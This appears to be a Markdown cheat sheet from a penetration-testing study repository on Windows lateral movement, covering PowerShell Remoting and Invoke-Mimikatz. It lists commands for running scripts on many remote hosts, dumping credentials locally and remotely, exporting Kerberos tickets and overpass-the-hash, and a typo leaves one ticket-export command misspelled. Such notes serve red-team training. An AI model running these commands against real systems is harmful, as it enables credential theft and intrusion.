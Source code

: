# Lateral Movement
---
# Navigation
- **[PowerShell Remoting](#PowerShell%20Remoting)**
- **[Mimikatz](#Mimikatz)**
---
# PowerShell Remoting
- Enabled by deafult on server 2012 onwards.
- On desktop windows machines you may need to enable it `Enable-PSRemoting` (Require admin privs).
- You get elevated shell on remote system if admin creds are used to authenticate (Default setting).

## One-to-One
### PSSession
- interactive
- Runs in a new process (wsmprovhost)
- Is stateful.
### Useful cmdlets
```powershell
New-PSSession
Enter-PSSession
```
## One-to-many
- Also know as Fan-Out-Remoting
- Non-interactive
- Executes commands parallely
- Runs Commands and scripts on
	- Multiple computers
	- In disconnected sessions (v3)
	- As background jobs and more
### Useful cmdlets
```powershell
Invoke-Command -ComputerName <ComputerName>
Invoke-Command -ComputerName (Get-Content <List-of-servers>)
Invoke-Command -ComputerName -Credential # To pass username/password
```
#### Usage Example
```powershell
#To execute a command remotely 
Invoke-Command -scriptblock {whoami;Get-Process} -ComputerName <value> -Credential <Creds>

#To execute script remotely
Invoke-Command -FilePath C:\Path\Get-PassHashes.ps1 -ComputerName (Get-Content <List-of-servers>)

#Whenever you get an error when executing commands/scripts on remote machine check for Language mode because if it's in constrained mode you won't be able to execute anything but built-in cmdlets
Invoke-Command -scriptblock {$ExecutionContext.SessionState.LanguageMode} -ComputerName <value> -Credential <Creds>
```
---
# Mimikatz
- This script is used to dump credentials,tickets and more.
- Mimikatz with PowerShell is done without dropping `mimikatz.exe` to disk.
- It is useful for passing and relaying hashes,tickets and for many active directory attacks.
- The script needs admin privs for dumping creds from local machine.
### Usage
```powershell
#Powersploit module
#Dump credentials on a local machine (Default)
Invoke-Mimikatz -DumpCreds

#Dump creds on multiple remote machines
Invoke-Mimikatz -DumpCreds -ComputerName @("system1","system2")

#Above commands uses PowerShell cmdlet "Invoke-Command" to do their jobs.
```
### Export all kerberoas tickets to disk.
```powershell
#Powersploit module
Invoke-Mimikatz -command '"kerberoas::list /export"'
```
### "Over pass the hash" generate tokens from hashes.
```powershell
#Powersploit module
Invoke-Mimikatz -command '"sekurlsa::pth /user:administrator /domain <DOMAIN> /ntlm:<NTLM> /run:powershell.exe"'
```
